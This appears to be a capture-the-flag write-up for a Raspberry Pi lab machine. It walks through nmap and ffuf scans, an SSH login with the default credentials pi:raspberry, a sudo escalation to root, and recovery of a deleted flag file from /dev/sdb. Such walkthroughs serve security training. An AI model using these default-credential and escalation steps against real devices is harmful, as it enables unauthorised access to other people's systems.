

Target: 10.10.10.48

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.48              

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 21:11 PDT
Nmap scan report for 10.10.10.48
Host is up (0.52s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.48/FUZZ

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
```

checking 10.10.10.48


checking /admin



### Findings:Looking for attack vectors


[Mirai botnet attack blog](https://www.csoonline.com/article/3144200/expect-more-iot-botnet-attacks-mirai-source-code-now-freely-available.html)


## Foothold:

accessing using default username:password (pi:raspberry)
```
$ ssh pi@10.10.10.48   

pi@raspberrypi:~ $ id

uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

```
pi@raspberrypi:~ $ cat Desktop/user.txt

<redacted>
```


## Priv Escalations:

```
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

```
pi@raspberrypi:~ $ sudo bash

root@raspberrypi:/home/pi# id

uid=0(root) gid=0(root) groups=0(root)
```

looking for root.txt
```
root@raspberrypi:~# cat root.txt

I lost my original root.txt! I think I may have a backup on my USB stick...
```

looking for root.txt
```
root@raspberrypi:~# cd /media/usbstick

root@raspberrypi:/media/usbstick# cat damnit.txt 

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

looking for root.txt
```
root@raspberrypi:/dev# strings /dev/sdb

>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
<redacted>
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```